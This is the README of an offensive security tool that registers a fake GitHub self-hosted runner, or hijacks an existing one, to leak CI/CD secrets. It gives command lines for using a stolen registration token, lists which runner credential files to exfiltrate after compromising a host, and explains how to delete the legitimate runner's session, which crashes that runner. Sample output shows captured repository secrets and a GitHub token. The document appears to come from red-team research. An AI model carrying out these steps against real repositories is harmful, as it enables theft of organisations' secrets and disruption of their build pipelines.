 # gh-hijack-runner

A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.

Discover more details in the following blogpost: https://www.synacktiv.com/publications/hijacking-github-runners-to-compromise-the-organization 

## Exploitation

If you can obtain a registration token or achieve remote code execution on a self-hosted GitHub runner, you can either create or take over a GitHub runner. This will allow you to access all the secrets passed to that runner.

Using a registration token, you can register a runner labelled `ubuntu-latest`, gaining access to jobs originally intended for GitHub-provisioned runners. This allows you to compromise any workflow using this method.

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
[+] Session ID: b66b76a8-e7db-4a14-a2ea-207b1c8cb94d
[+] AES key: BTIk+FT2hRb[...]HN1kkg==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY21GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

## Install

```sh
$ pip install -r requirements.txt 
```

## Usage

### From a registration token

If you manage to get a registration token to register a self-hosted runner for a repo or an organization you can register the fake GitHub runner with this command:

```shell
$ gh-hijack-runner.py --registration-token AOTAA3QWE1A5QB6JFECOKQDGEVOVC --url https://github.com/syncicd/CICD --labels ubuntu-latest
```

This can be an organization or repository registration token.

### From credentials of an existing GitHub runner

With arbitrary code execution on a self-hosted runner, you need to exfiltrate three files to assume the identity of the compromised runner:
```shell
root@9f8f6f1fdfa6:/actions-runner# pwd
/actions-runner
root@9f8f6f1fdfa6:/actions-runner# ll
-rw-r--r-- 1 root   root     266 Apr 21 12:27 .credentials
-rw------- 1 root   root    1667 Apr 21 12:27 .credentials_rsaparams
-rw-r--r-- 1 root   root     325 Apr 21 12:27 .runner
[...]
```

To fetch jobs, the runner will establish a session with GitHub. Each runner can only maintain one session. To create a new session, you need to delete the current session established by the legitimate runner. The session ID can be found here:
```shell
root@9f8f6f1fdfa6:/actions-runner# cat _diag/* | grep -i session
[...]
[2024-04-21 18:03:46Z INFO MessageListener] Message '5' received from session 'aab007e0-eedd-4c1b-96b4-a7c2c128c31a'.
```

**/!\\ Deleting the current session will crash the legitimate runner /!\\**

Then, you can delete the current session:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json --delete-session-id aab007e0-eedd-4c1b-96b4-a7c2c128c31a
[+] Session aab007e0-eedd-4c1b-96b4-a7c2c128c31a deleted.
```

Finally you can hijack this runner:
```sh
$ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json                                                         
[+] Session ID: 3c88c6f7-5764-4121-b9bf-2536ee2539b7
[+] AES key: eLN3rhf3D[...]UHewLw==
[+] New Job: init (messageId=2)
- REPO_SECRET: repo secret
- SUPER_SECRET: super secret password
- system.github.token: ghs_RqDY23GqZ0OYvM8ImVpAB0B9o7TBQR4Dq2HC
```

Note that for ephemeral self-hosted runner this won't work.

### Help

```sh
$ gh-hijack-runner.py --help
Hijack GitHub runners                

Usage:
    gh-hijack-runner.py [options] --registration-token <token> --url <url> [--labels <labels> --ephemeral --rsa-params <rsa> --credentials <credentials> --runner <runner>]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> [(--session-id <session> --aes-key <key>)]
    gh-hijack-runner.py [options] --rsa-params <rsa> --credentials <credentials> --runner <runner> --delete-session-id <session>
    

Options:
    -h --help                               Show this screen.
    --version                               Show version.
    -v, --verbose                           Verbose mode
    --output <folder>                       Save data to output file
    --runer-name <name>                     Runner name
    --runner-group <name>                   Runner group name
    --last-Message-id <id>                  Last message ID

Args:
    --registration-token <token>            Token used to register a runner
    --url <url>                             Full repository or org URL
    --rsa-params <rsa>                      Path to .credentials_rsaparams file
    --credentials <credentials>             Path to .credentials file
    --runner <runner>                       Path to .runner file
    --session-id <session>                  Already running session id
    --aes-key <key>                         Base64 encoded AES key associated with a session id
    --labels <labels>                       Labels used for registration (ubuntu-latest,customrunner)
    --ephemeral                             Create ephemeral runner
    --delete-session-id <session>           Delete session. Warning: It will crash the related GitHub runner
    

Examples:
    $ gh-hijack-runner.py --registration-token AOTAA3TOI7SACAVKBDWEQN3F5IEO2 --url https://github.com/org/repo
    $ gh-hijack-runner.py --rsa-params credentials_rsaparams.json --credentials credentials.json --runner runner.json

Author: @hugow

```

## Credits

- [@karimpwnz](https://twitter.com/karimpwnz) for the [crypto](https://karimrahal.com/2023/01/05/github-actions-leaking-secrets/)
- [@0xn3va](https://twitter.com/0xn3va) for the [session deletion](https://0xn3va.gitbook.io/cheat-sheets/ci-cd/github/actions#misuse-of-self-hosted-runners) part
- [@frichette_n](https://twitter.com/frichette_n) for the [original idea](https://github.com/Frichetten/gitlab-runner-research) on GitLab
